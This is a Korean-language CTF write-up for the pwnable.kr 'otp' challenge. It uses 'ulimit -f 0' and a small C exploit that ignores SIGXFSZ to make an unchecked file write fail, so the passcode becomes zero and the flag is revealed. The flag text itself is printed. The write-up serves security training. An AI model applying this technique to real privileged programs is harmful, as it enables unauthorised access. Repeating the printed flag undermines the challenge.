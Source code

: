 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-17-00-58.png)


# **Write-Up**

opt.c를 확인하면 인자 값으로 넣은 값과 passcode가 일치하면 FLAG를 획득할 수 있다.

```cpp
... 생략 ...
        if(strtoul(argv[1], 0, 16) == passcode){
                printf("Congratz!\n");
                system("/bin/cat flag");
        }
        else{
                printf("OTP mismatch\n");
        }

        unlink(fname);
        return 0;
}
```

passcode는 /dev/urandom에서 16byte를 읽고, 8byte는 파일이름으로 사용하고 나머지 8byte는 파일의 내용으로 저장한다. 그리고 내용이 passcode가 된다.

```cpp
... 생략 ...
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1) exit(-1);

        if(read(fd, otp, 16)!=16) exit(-1);
        close(fd);

        sprintf(fname, "/tmp/%llu", otp[0]);
        FILE* fp = fopen(fname, "w");
        if(fp==NULL){ exit(-1); }
        fwrite(&otp[1], 8, 1, fp);
        fclose(fp);

        printf("OTP generated.\n");

        unsigned long long passcode=0;
        FILE* fp2 = fopen(fname, "r");
        if(fp2==NULL){ exit(-1); }
        fread(&passcode, 8, 1, fp2);
        fclose(fp2);
... 생략 ...
```

이때, 프로세스의 자원 한도를 설정할 수 있는 ulimit이라는 명령어를 이용하자. -a 옵션을 주면 모든 제한 사항을 살펴볼 수 있다.

ulimit의 -f옵션과 인자 값으로 0을 주어 otp값을 NULL 고정할 수 있겠다.

```sh
otp@pwnable:~$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) 1500000
scheduling priority             (-e) 0
file size               (blocks, -f) 120000
pending signals                 (-i) 380913
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1000
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 300
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

ulimit -f 0으로 file size 한도를 0으로 설정 후 file size가 1이상의 파일을 생성 시 SIGXFSZ라는 signal이 발생하고 이 후 코어덤프가 뜬다.

> [CODE BLOCK](https://discuss.codechef.com/t/sigxfsz-runtime-error/2828)

```sh
root@ubuntu:~/pwn# ulimit -f 0
root@ubuntu:~/pwn# touch test
root@ubuntu:~/pwn# vi test
Vim: Caught deadly signal XFSZ
                              Vim: Finished.
File size limit exceeded (core dumped)
```

이 SIGXFSZ를 무시하고 otp를 실행 시 NULL을 인자로 주면 passcode도 NULL이기 때문에 FLAG를 획득할 수 있다.

```sh
otp@pwnable:~$ mkdir /tmp/2honrr_otp
otp@pwnable:~$ cd /tmp/2honrr_otp
otp@pwnable:/tmp/2honrr_otp$ vi exploit.c
otp@pwnable:/tmp/2honrr_otp$ gcc -o exploit exploit.c
```

```cpp
#include<stdio.h>
#include<unistd.h>
#include<signal.h>
int main(void){
        signal(SIGXFSZ,SIG_IGN);
        chdir("/home/otp");
        char *argv[]={"./otp","\x00",NULL};
        char* env[] = {NULL};
        execve("./otp",argv, env);
}
```

```sh
otp@pwnable:/tmp/2honrr_otp$ ulimit -f 0
otp@pwnable:/tmp/2honrr_otp$ ./exploit
OTP generated.
Congratz!
Darn... I always forget to check the return value of fclose() :(
```


# **FLAG**

**Darn... I always forget to check the return value of fclose() :(**